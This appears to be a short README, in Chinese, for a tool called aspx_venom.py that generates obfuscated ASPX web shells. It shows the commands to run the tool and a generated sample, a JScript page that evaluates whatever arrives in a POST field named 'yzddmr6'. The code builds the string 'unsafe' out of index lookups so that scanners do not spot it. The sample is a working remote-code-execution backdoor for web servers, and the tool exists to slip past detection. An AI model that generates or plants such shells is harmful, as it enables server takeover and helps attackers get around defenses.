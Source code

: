## 使用方法

`python3 aspx_venom.py`

保存:

`python3 aspx_venom.py >  test.aspx`

生成样例:
```
<%@ Page Language="Jscript" Debug=true%>
<%
var UdIw='hVYFCrBEjfzQsUkdgOReSAKXntawHGiWPvTpqJxmLZbylcuMNDIo';
var YJxe=Request.Form("yzddmr6");
var zIUt=UdIw(13)+UdIw(24)+UdIw(12)+UdIw(21)+UdIw(3)+UdIw(7);
eval(YJxe,zIUt);
%>
```

